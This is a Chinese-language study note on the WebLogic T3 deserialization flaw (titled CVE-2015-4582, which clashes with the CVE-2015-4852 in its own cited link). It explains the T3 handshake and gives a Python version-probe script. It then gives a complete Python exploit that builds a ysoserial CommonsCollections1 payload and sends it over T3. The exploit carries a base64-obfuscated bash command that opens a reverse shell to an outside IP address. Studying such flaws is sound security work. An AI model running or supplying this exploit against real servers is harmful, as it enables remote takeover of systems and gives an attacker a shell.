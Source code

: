 # CVE-2015-4582

## 影响

1. 10.3.6.0
2. 12.1.2.0
3. 12.1.3.0
4. 12.2.1.0

## 漏洞分析

看了一些文章其实漏洞原理其实挺简单的....总结来说就是：weblogci通过T3协议进行传递序列化数据没有经过任何过滤并且weblogic恰好存在恶意利用链的jar包，相当于提供了一个`source`。

那什么是T3协议？

## T3协议（碰到的问题）

问题1：为什么wireshark抓包无法抓到数据包？(其实也就是基础问题)
开始的时候一直没有抓到包....搜了很多文章看
包括一些wireshark为什么抓不到baidu的包？不是没抓到是因为https加密了：[为什么你抓不到baidu的数据](https://mp.weixin.qq.com/s?__biz=MzUzNTY5MzU2MA==&mid=2247497288&idx=1&sn=1d634021528643c2f71e7cbf4dd7a0f7&chksm=fa8327dfcdf4aec9f798046e38ed5918d2df937c1ba7b7729c08e31b4c5c23cd13023c1c08f6&mpshare=1&scene=23&srcid=0110jBzdFMNuglOyMZh5teWu&sharer_sharetime=1673322185390&sharer_shareid=33fdea7abe6be586e131951d667ccd06#rd)
后来去上了个厕所回来，突然想到会不会是网卡的问题(我这又不是通过WIFI访问的docker环境!!!!).....豁然开朗，于是秒速更换VMware Network Adapter VMnet8的网卡.

问题2：什么是T3协议？
分为两部分：非java序列化数据（请求头部分）
这部分能干嘛？（个人觉得可以进行版本探测：[前人经验：使用`t3 9.2.0\nAS:255\nHL:19\n\n`字符串作为T3的协议头发送给weblogic9、weblogic10g、weblogic11g、weblogic12c均合法](https://y4er.com/posts/weblogic-cve-2015-4852/#%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90)）

因为再建立tcp链接的时候会进行响应有对应版本的回显：

```python
import socket

def T3Test(ip,port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 9.2.0\nAS:255\nHL:19\n\n" #请求包的头
    sock.sendall(handshake.encode())
    while True:
        data = sock.recv(1024)
        print(data.decode())

if __name__ == "__main__":
    ip = "192.168.88.128"
    port = 7001

    T3Test(ip,port)
```

后一部分就是序列化的数据。
[这篇文章讲述的更加详细对于T3协议（从代码层面）](https://zhuanlan.zhihu.com/p/512057410)【这里相当于跟了一遍流程】

`t3 9.2.0\nAS:255\nHL:19\n\n`

AS：如果长度大于256（反序列化对象大小）则不会进行反序列化（同时这也是payload中desflag设置得原因，还有需要typecode为0....其实文章说的很清楚）
让我好奇得是前人是怎么构造出这种16进制数据呢？可能就像y4er师傅那样找一个样本，然后修改相应部分就行了.（就没有动手啦~嘿嘿）

## payload

```python
from os import popen
import struct  # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii


def generatePayload(gadget, cmd):
    YSO_PATH = "C:\\Users\\18282\\Desktop\\Tools\\ysoserial-0.0.6-SNAPSHOT-all.jar"
    popen = subprocess.Popen(['java', '-jar', YSO_PATH, gadget, cmd], stdout=subprocess.PIPE)
    return popen.stdout.read()


def T3Exploit(ip, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    data += sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    print(data.decode())
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: " + "".join(match))
    else:
        print("Not Weblogic")
        return
    header = binascii.a2b_hex(b"00000000")
    print(header)
    t3header = binascii.a2b_hex(
        b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    print(t3header)
    desflag = binascii.a2b_hex(b"fe010000")
    print(desflag)
    payload = header+t3header + desflag + payload #整合payload
    print(payload)
    payload = struct.pack(">I", len(payload)) + payload[4:]
    sock.send(payload)


if __name__ == "__main__":
    ip = "192.168.88.128"
    port = 7001
    gadget = "CommonsCollections1"
    cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMDguMjIzLjkxLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}"
    payload = generatePayload(gadget, cmd)
    T3Exploit(ip, port, payload)



# import socket
#
# def T3Test(ip,port):
#     sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#     sock.connect((ip, port))
#     handshake = "t3 9.2.0\nAS:255\nHL:19\n\n" #请求包的头
#     sock.sendall(handshake.encode())
#     while True:
#         data = sock.recv(1024)
#         print(data.decode())
#
# if __name__ == "__main__":
#     ip = "192.168.88.128"
#     port = 7001
#
#     T3Test(ip,port)

```

